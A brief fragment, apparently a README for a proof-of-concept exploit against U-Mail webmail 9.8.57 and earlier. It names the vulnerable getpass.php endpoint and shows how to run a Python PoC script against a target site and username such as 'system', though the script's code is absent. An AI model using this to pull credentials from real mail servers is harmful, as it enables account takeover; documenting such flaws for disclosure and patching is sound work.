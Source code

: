 U-Mail <= 9.8.57 
http://www.xxx.com/webmail/getpass.php
========
python u-mail-poc.py http://www.xxx.com username
eg: python u-mail-poc.py http://www.xxx.com system
